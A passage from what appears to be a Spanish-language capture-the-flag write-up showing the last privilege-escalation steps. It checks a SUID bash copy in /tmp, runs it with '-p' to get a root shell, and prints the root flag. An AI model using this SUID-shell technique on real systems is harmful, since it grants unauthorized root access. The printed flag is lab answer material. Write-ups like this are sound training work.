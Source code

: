 Nos dara como una especie de error, pero si vamos al `/tmp` veremos que se ha ejecutado de forma correcta:

```shell
ls -la /tmp/rootbash
```

Info:

```
-rwsr-xr-x 1 root root 1396520 Sep 28 12:00 /tmp/rootbash
```

Veremos que ha funcionado, por lo que vamos a ser `root` directamente haciendo esto:

```shell
/tmp/rootbash -p
```

Info:

```
rootbash-5.1# whoami
root
```

Por lo que vemos ya seremos `root`, por lo que leeremos la `flag` de `root`.

> root.txt

```
d0cd9a22af792e77c5d6b84f210c5018
```

